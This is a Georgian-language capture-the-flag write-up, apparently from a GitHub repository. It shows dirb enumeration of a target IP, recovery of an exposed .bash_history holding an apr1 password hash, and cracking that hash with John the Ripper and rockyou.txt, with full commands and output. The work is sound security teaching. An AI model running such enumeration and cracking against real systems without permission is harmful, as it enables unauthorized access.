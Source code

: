 ## კრიმინალურმა პოლიციამ აღმოაჩინა ვებ გვერდი საიდანაც შესაძლებელია იარაღის შეძენა უკანონოდ.
## თქვენი მიზანია განახორციელოთ შეტევა აღნიშნულ ვებგვერდზე და აღმოაჩინოთ კოდური გასაღები.

1. პირველრიგში, შევიდეთ მოცემულ ფეიჯზე. შესვლისას გვხვდება ჩვეულებრივი საიტი, რომელიც ბევრს არაფერს გვეუბნება. არც მისი ინსპექტით გახსნის შემდეგ ვხვდებით ბევრ რამეს.
 ![index.php](.images/index.png)


2. ვინაიდან მოცემული ფეიჯი არანაირ ინფორმაციას არ გვაძლევს, bruteforce-ით გადავუაროთ სახელებს და შევეცადოთ ვიპოვოთ ამ სერვერზე არსებული ფაილები თუ დირექტორიები.
ამისთვის გამოვიყენებთ ხელსაწყოს სახელად dirb:
    ```bash
    dirb <url_base> [<wordlist_file(s)>] [options]

    url_base - მისამართი რომელზეც გვინდა bruteforce (*)
    [<wordlist_file(s)>] - მისამართი ფაილზე, რომელიც შეიცავს სიტვებს. dirb გადაუყვება და ამ სიტყვების გამოყენებით შეეცდება იპოვოს დამალული მისამართი სერვერზე.
    [options] - სხვადასხვა ფლეგები (შეგიძლია დოკუმენტაციაში წაიკIთხოთ დეტალურად)
    ```
    გავუშვათ ბრძანება და ვნახოთ შედეგი:
    ```bash
    root@kali:~$ dirb http://185.212.254.50/

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sat May 30 16:44:59 2020
    URL_BASE: http://185.212.254.50/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://185.212.254.50/ ----
    + http://185.212.254.50/.bash_history (CODE:200|SIZE:1311)                     
    + http://185.212.254.50/index.html (CODE:200|SIZE:200)                         
    + http://185.212.254.50/server-status (CODE:403|SIZE:302)                      
    ==> DIRECTORY: http://185.212.254.50/wp/                                       
                                                                                
    ---- Entering directory: http://185.212.254.50/wp/ ----
    ==> DIRECTORY: http://185.212.254.50/wp/wordpress/
    
    # აქედან ყველა დირექტორია/ფაილი ვორდპრესს ეხებოდა, ამიტომაც აქ აღარ გამოვიტან.
    # სრული ლოგის სანახავად გადადით dirb.log ფაილზე 

    -----------------
    END_TIME: Sat May 30 17:08:25 2020
    DOWNLOADED: 202928 - FOUND: 16             
                                                            
    ```
    სრული ლოგი შეგიძლიათ იხილოთ აქ --> [dirb.log](dirb.log)

    dirb-ის აუთფუთიდან შეგვიძლია დავასკვნათ, რომ საიტი აწყობილია wordpress-ზე და სხვადასხვა ლინკებზე გადასასვლელად გვჭირდება აუთენთიფიკაცია, მაგრამ სანამ გადავიდოდეთ აუთენთიფიკაციის გატეხვაზე დავაკვირდეთ რომ dirb ბრძანებამ აღმოაჩინა კიდევ ერთი ფაილი: `.bash_history` (ეს ფაილი გამოიყენება ტერმინალში აკრეფილი ბრძანებების შესანახად)

    გავხსნათ ნაპოვნი ფაილი და გადავავლოთ თვალი (უბრალოდ შევიდეთ შემდეგ მისამართზე __185.212.254.50/.bash_history__ ):
    
    ფაილი შეგიძლია იხილოთ აქ დაკლიკებით --> [.bash_history](.bash_history)

3. [.bash_history](.bash_history) ფაილის გახსნისას ვხედავთ, რომ სერვერი აწეულია apache2-ზე. 
    აქ ჩვენთვის საინტერესო არის შემდეგი ორი ხაზი:
    * `mkdir /var/www/html/ctf/admin` (ctf არის capture the flag-ის აბრივიატურა, შესაბამისად ჩვენთვის გამოსადეგი რამ უნდა იყოს)
    * `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`

4. გადავიდეთ ctf/admin ფეიჯზე:
    ![.ctf/admin](.images/ctf-admin.png)
    როგორც ვხედავთ, გვჭირდება იუზერნეიმი და პაროლი, ასევე გვეუბნება რომ გამოვიყენოთ [John The Ripper](https://www.openwall.com/john/). ეს არის ხელსაწყო, რომელიც ჰეშების plain-text-ში აღდგენაში გამოიყენება. 

5. როგორც ctf/admin ფეიჯზე ვნახეთ, გვჭირდება იუზერნეიმი და პაროლი. შეგვიძლია ასევე დავუბრუნდეთ [.bash_history](.bash_history) ფაილს სადაც ვიპოვეთ ეს ჩანაწერი `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`. როგორც ვხედავთ შენახული მომხმარებლის იუზერნეიმი არის 'admin', პაროლი კი დაჰეშილი სახით ინახება, სწორედ აქ გამოგვადგება ჩვენი ჯონი.
    ```bash
    john <hash.txt> --wordlist=<pass.txt>

    hash.txt - ფაილი რომელიც შეიცავს თქვენს ჰეშ(ებ)ს
                ფაილში შეიძლება შეინახოთ ან მარტო ჰეშები (ყოველი ახალი ჰეში ახალ ხაზზე) ან იუზერნეიმი და ჰეში ოწერტილით გამოყოფილი [Username:Hash]
    pass.txt - ფაილი რომელიც შეიცავს იმ სიტყვების სიას, რომლებიც უნდა შევამოწმოთ 
    ```

    * როგორც ვნახეთ უნდა მოვამზადოთ ჰეშების სია. ჩვენს შემთხვევაში მარტო ერთი ჰეშია. ავიღოთ ის ბრძანება, რომელიც სერვერზე გაუშვეს და გავუშვათ ჩვენც
    `echo 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.' > passwords`
    ამ ბრძანების შემდეგ 'passwords' ფაილში ჩაიწერება 'admin:$apr1$T9QLutEh$9Y192r5I3TI52/bsdksIy.'
    შეგიძლიათ თქვენით შექმნათ ახალი ფაილი და ხელით ჩაწეროთ ეს კონტენტი.
    შექმნილი ფაილი შეგიძლიათ იხილოთ აქ --> [passwords](passwords)

    * გვჭირდება ასევე ფაილი, რომელიც შეიცავს პაროლებს. ასეთი სიისთვის ყველაზე კარგი ვარიანტია [rockyou.txt](https://www.scrapmaker.com/download/data/wordlists/dictionaries/rockyou.txt). (ფაილის სიდიდის გამო, მხოლოდ დაზიპული ფაილის მოწოდება შემიძლია: [rockyou.txt.gz](../../utils/wordlists/rockyou.txt.gz) ამოაარქივეთ და ჩვეულებრივად შეძლებთ გამოყენებას)

    ავაწყოთ და გავუშვათ ჩვენი ბრძანება
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    ```

    აუთფუთი:
    ```bash
    john Pentest/GunMarket/passwords --wordlist='utils/wordlists/rockyou.txt'
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    admin123         (admin)
    1g 0:00:00:01 DONE (2020-05-31 07:13) 0.9009g/s 81059p/s 81059c/s 81059C/s agape1..a00000
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

    `admin123         (admin)` <-- ეს ხაზი გვეუბნება რომ `admin` იუზერნეიმის მქონე მომხმარებლის დაჰეშილი პაროლი იყო `admin123`.

    P.S. გაშვებულმა ბრძანებამ შეიძლება შემდეგი აუთფუთი დაგიბრუნოთ
    ```bash
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    No password hashes left to crack (see FAQ)
    ```
    `No password hashes left to crack (see FAQ)` ამით ვხვდებით რომ ყველა პაროლი გაშიფრულია, მაგრამ აუთფუთში არაფერს არ გვიჩვენებს. ჯონი ჭკვიანი როჟაა და იმახსოვრებს იმ ჰეშებს, რომლებიც აქამდე გაშიფრა. ეს მესიჯიც მაგას ნიშნავს. ადრე გაშიფრული პაროლების გასაშიფრად გამოვიყენოთ `--show` ფლეგი, რომელსაც გადაეცემა გასაშიფრი ჰეშების სია. გავუშვათ შემდეგი ბრძანება:
    ```bash
    john --show Pentest/GunMarket/passwords 
    ```
    აუთფუთი:
    ```bash
    admin:admin123

    1 password hash cracked, 0 left
    ```



    